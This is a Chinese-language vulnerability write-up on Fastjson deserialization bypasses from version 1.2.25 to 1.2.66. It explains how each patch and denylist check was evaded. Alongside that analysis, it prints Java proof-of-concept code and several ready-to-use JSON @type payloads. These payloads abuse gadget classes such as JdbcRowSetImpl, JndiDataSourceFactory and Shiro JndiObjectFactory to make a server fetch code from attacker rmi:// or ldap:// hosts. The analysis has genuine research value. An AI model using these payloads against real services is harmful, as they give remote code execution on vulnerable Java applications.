# 1.2.25-1.2.41

在新的补丁中,从JSON⽂本中解析出加载类名后传⼊ config.checkAutoType 函数。





当 autoTypeSupport 为 false 时会进⼊该分⽀，使⽤⿊名单+⽩名单验证。



当 autoTypeSupport 为 true 时会进⼊该分⽀，使⽤⿊名单验证。

⿊名单：

```java
denyList = {String[22]@620} 

0 = "bsh"

1 = "com.mchange"

2 = "com.sun."

3 = "java.lang.Thread"

4 = "java.net.Socket"

5 = "java.rmi"

6 = "javax.xml"

7 = "org.apache.bcel"

8 = "org.apache.commons.beanutils"

9 = "org.apache.commons.collections.Transformer"

10 = "org.apache.commons.collections.functors"

11 = "org.apache.commons.collections4.comparators"

12 = "org.apache.commons.fileupload"

13 = "org.apache.myfaces.context.servlet"

14 = "org.apache.tomcat"

15 = "org.apache.wicket.util"

16 = "org.codehaus.groovy.runtime"

17 = "org.hibernate"

18 = "org.jboss"

19 = "org.mozilla.javascript"

20 = "org.python.core"

21 = "org.springframework"
```

⽩名单默认情况下为空

## poc

```java
import com.alibaba.fastjson.JSON;
import com.sun.rowset.JdbcRowSetImpl;
public class java1_2_25 {
 public static void main(String[] args) {
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",
\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
 JSON.parse(PoC);
 }
}
```

## 补丁绕过

在指定的类名开头加上 L 结尾加上 ;  能够成功绕过⿊名单的验证，问题出

在 TypeUtils.loadClass 。

com.alibaba.fastjson.parser.ParserConfig#checkAutoType



com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader)



如果类名以 L 开头 ; 结尾，就会删除开头和结尾得到新类名，以新类名作为参数递归调⽤ loadClass

函数，最终加载 JdbcRowSetImpl 并返回

# 1.2.42

修复了1.2.41版本中 autoTypeSupport 为 true 时存在的安全问题，但修复⽅式⽐较⽆脑，仍存在绕过⻛险。

## 类Hash⿊名单

开发者为了增加安全分析的难度，将⿊名单中的类明⽂变成了类Hash进⾏⽐较判断。

/com/alibaba/fastjson/parser/ParserConfig.java

```java
denyHashCodes = new long[]{
 -8720046426850100497L,
 -8109300701639721088L,
 -7966123100503199569L,
 -7766605818834748097L,
 -6835437086156813536L,
 -4837536971810737970L,
 -4082057040235125754L,
 -2364987994247679115L,
 -1872417015366588117L,
 -254670111376247151L,
 -190281065685395680L,
 33238344207745342L,
 313864100207897507L,
 1203232727967308606L,
 1502845958873959152L,
 3547627781654598988L,
 3730752432285826863L,
 3794316665763266033L,
 4147696707147271408L,
 5347909877633654828L,
 5450448828334921485L,
 5751393439502795295L,
 5944107969236155580L,
 6742705432718011780L,
 7179336928365889465L,
 7442624256860549330L,
 8838294710098435315L
};
```

github上有整理类hash对应的类 https://github.com/LeadroyaL/fastjson-blacklist



在将类名传⼊⿊名单判断前，对开头和结尾的字符进⾏⼀次删除。

## 补丁绕过

> 绕过⽅式为类名开头两个 L ，结尾两个 ; ，这样删除⼀次开头结尾后的类名为 Lcom.sun.rowset.JdbcRowSetImpl; ，不会触发⿊名单。前⽂提到 TypeUtils.loadClass 会递归的去掉开头 L 和结尾 ; ，传⼊ TypeUtils.loadClass 函数的
>
> 类名是 LLcom.sun.rowset.JdbcRowSetImpl;; （其实 LLLcom.sun.rowset.JdbcRowSetImpl;;;也⾏），因此最终也能加载 com.sun.rowset.JdbcRowSetImpl 。

## POC

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class POC {
 public static void main(String[] args) {
 
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",
\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
 JSON.parse(PoC);
 }
}
```

# 1.2.43

com/alibaba/fastjson/parser/ParserConfig.java:902

> 先判断类名是否符合 L----; 形式（ LL-----;; 以及多次重复也判断符合），若符合，则进⼀步精确判
>
> 断类名是否为 LL-----;; 形式：
>
> 符合，就直接抛出异常，这⾥就过滤了两次及以上的开头和结尾的攻击类名。
>
> 不符合，处理同上版本，删除开头和结尾的字符得到类名，传⼊⿊名单判断。
>
> 后续的处理和前⾯版本基本相似。

## POC

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class POC {
 public static void main(String[] args) {
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{
\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":false}";
 JSON.parse(PoC);
 }
}
```

## 补丁绕过

根据POC可知，绕过⽅式不再使⽤ `L---`; 类型，⽽是使⽤ `TypeUtils.loadClass` 函数中对类名以

`[` 开头的处理进⾏绕过，并且变化了 `[{` ，为了反序列化解析的时候不会产⽣异常。

com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader)



删除开头的 [ 然后引⼊ com.sun.rowset.JdbcRowSetImpl 类型，但最后返回的⼀个的数组类。

如果使用`，`的话会报错,根据报错信息修改成`[{`

# 1.2.44-1.2.45

com/alibaba/fastjson/parser/ParserConfig.java:903



## poc

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;
public class POC {
 public static void main(String[] args) {
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "
{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"prope
rties\":{\"data_source\":\"rmi://localhost:1099/Exploit\"}}";
 JSON.parse(PoC);
 }
}
```

## 补丁绕过

这下无法绕过黑名单了,于是诞⽣了有⼀定限制的新 `Mybatis` 利⽤链，可以直接绕过⿊名单。

## Mybatis

MyBatis是⼀款优秀的持久层框架，它⽀持⾃定义SQL、存储过程以及⾼级映射。MyBatis是阿⾥这种⼤公司的御⽤框架，于是理所当然的成了绝⼤多数公司的标准选择。所以该第三⽅利⽤链，还是具有⼀定的可利⽤范围。

## 利用条件

```
1）、目标服务端存在mybatis的jar包。
2）、版本需为 3.x.x ～ 3.5.0
3）、autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）
```


使用黑名单绕过，`org.apache.ibatis.datasource`在1.2.46版本中被加入了黑名单。

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1389/Exploit"}}
```

# 1.2.47 通杀

## POC

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;
public class POC {
 public static void main(String[] args) {
 String payload = "{\n" +
 " \"name\":{\n" +
 " \"@type\":\"java.lang.Class\",\n" +
 " \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
 " },\n" +
 " \"x\":{\n" +
 " \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
 " 
\"dataSourceName\":\"rmi://localhost:1099/Exploit\",\n" +
 " \"autoCommit\":true\n" +
 " }\n" +
 "}";
 System.out.println(payload);
 JSON.parse(payload);
 }
}
```

## 补丁绕过

主要使⽤了 checkAutoType 函数处理逻辑上的⼀些缺陷并结合新的 java.lang.Class 利⽤链，利⽤

缓存 mappings 从⽽绕过了⿊⽩名单的限制加载 com.sun.rowset.JdbcRowSetImpl 类。不受

autoTypeSupport 选项的影响，威⼒更大，范围更⼴

## 利用条件

- 小于 1.2.48 版本的通杀，autoType为关闭状态也可以。
- loadClass中默认cache设置为true。


POC可以分为两部分，第⼀部分的 java.lang.Class 是绕过的关键，第⼆部分就是利⽤ com.sun.rowset.JdbcRowSetImpl 进⾏常规的JNDI注⼊。



首先进入对`java.lang.Class`类的解析



进入MiscCodec类,解析value



然后调用了TypeUtils.loadClass类来加载Jdbc类



这里cache默认为true



将Jdbc类存入了mappings



接着来到了我们`payload`的第二部分解析,还是先解析`@type`,调用`checkAutoType`进行检测



如果`autoTypeSupport`为`false`,则直接加载类,如果为`ture`,则会进行判断

抛出异常需要同时满⾜两个条件：

- 恶意类被⿊名单检测
- 缓存 `Mappings` 中没有恶意类



`com.sun.rowset.JdbcRowSetImpl` 已经在第⼀部分POC中被添加到缓存 `Mappings` ，所以这⾥不会抛出异常。

> 在`TypeUtils`的`static`初始化时调用`com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings`中会将常用的类通过loadclass()放入mapping中。
>
> 
>
> 然后在解析时,当传入type时进入`checkAutoType()`检查类。
>
> 在调用解析时我们没有传入预期的反序列化对象的对应类名时，会从mapping中或者`deserializers.findClass()`寻找,当找到类之后会直接return class，不会再进行`autotype`和黑名单校验，而在deserializers中有`java.lang.Class`
>
> 
>
> 而Mappings是ConcurrentMap类的，顾名思义就是在当前连接会话生效。所以我们需要在一次连接会话同时传入两个json键值对时，此次连接未断开时，继续解析第二个json键值对，然后和上文中提到的一样，在校验autotype和黑名单之前就已经return了clazz，变相绕过了黑名单，利用JNDI注入RCE。

## 补丁

黑名单多了两条，MiscCodec中将默认传入的cache变为false，checkAutoType()调整了逻辑

# 1.2.62

黑名单绕过
`json{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";`

# 1.2.66

## POC

```
// 需要autotype true
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"}}
```

## 利用条件

autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）

# 参考

https://www.freebuf.com/vuls/276812.html

https://qiita.com/Y4er/items/f2fbd0df3d59b6aa4ee2

https://paper.seebug.org/1192/#ver1245ver1246